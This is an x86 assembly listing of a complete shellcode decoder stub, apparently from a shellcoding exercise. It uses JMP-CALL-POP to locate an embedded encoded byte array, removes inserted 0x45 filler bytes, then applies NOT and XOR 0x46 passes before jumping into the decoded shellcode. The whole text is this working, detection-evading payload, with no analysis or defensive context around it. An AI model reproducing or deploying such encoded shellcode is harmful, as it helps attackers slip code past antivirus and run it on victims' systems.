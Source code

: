 Complete code:

```term
global _start

section .text

_start:

      jmp short master               ; Jumps to master

main:

      pop ebp                        ; Pops the value of the shellcode into ebp
      mov esi, ebp                   ; Copies the value from ebp to esi

      lea edi, [esi + 1]             ; Points to the 0x45 byte

      xor eax, eax                   ; Zeroes out EAX
      xor ebx, ebx                   ; Zeroes out EBX

      mov cl, 44                     ; Stores counter (44 bytes)
      mov al, 1                      ; Makes AL hold value 1 for later calculations.

decode:

      mov bl, byte [esi + eax]       ; Points to 0x45
      xor bl, 0x45                   ; Turns 0x45 into 0x00
      mov bl, byte [esi + eax + 1]   ; Grabs intended value
      mov byte [edi], bl             ; Replaces 0x00 for the intended value
      inc edi                        ; Increments EDI, holding next 0xAA for replacement
      add al, 2                      ; Adds 2 in order to continue the process
      loop decode                    ; Starts loop

      mov cl, 22                     ; Stores counter (22 bytes)
      xor esi, esi                   ; Zeroes out ESI
      mov esi, ebp                   ; Copies the value from ebp to esi

decode2:

      not byte [esi]                 ; Performs a NOT operation on the value pointed by ESI
      inc esi                        ; Increments ESI, therefore performing a NOT operation on every opcode
      loop decode2                   ; Starts loop

      mov cl, 22                     ; Stores counter (22 bytes)
      xor esi, esi                   ; Zeroes out ESI
      mov esi, ebp                   ; Copies the value from ebp to esi

decode3:

      xor byte [esi], 0x46           ; Performs a XOR operation between the value of ESI and 0x46
      inc esi                        ; Increments ESI, therefore performing aXOR operation on every opcode
      loop decode3                   ; Starts loop
      jmp short shellcode            ; Jumps to the shellcode

master:

      call main                      ; Calls to main and pops shellcode into the stack

      shellcode: db 0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45
```